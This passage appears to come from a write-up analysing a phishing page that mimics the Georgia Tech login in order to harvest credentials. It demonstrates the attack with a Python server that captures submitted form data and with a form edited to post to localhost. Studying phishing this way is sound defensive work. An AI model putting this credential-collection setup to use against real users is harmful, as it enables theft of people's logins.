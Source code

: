![](/assets/images/gaphish6.png)

In essence, this is a look-a-like page designed to social engineer GaTech usernames/passwords, submitting that data to a malicious website for collection and follow-on action. To demonstrate, we can trivially spin-up a python HTTP server:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs

class MyServer(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Parse the POST data
        post_params = parse_qs(post_data.decode('utf-8'))

        # Here you can process the POST data as needed
        # For example, print it out:
        print("Received POST data:", post_params)

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        self.wfile.write(b'POST request received successfully')

def run(server_class=HTTPServer, handler_class=MyServer, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Starting server on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

And edit `GTLogin.htm` to point at the server:

```html
<form method="post" id="fm1" action="http://127.0.0.1:8000">
```
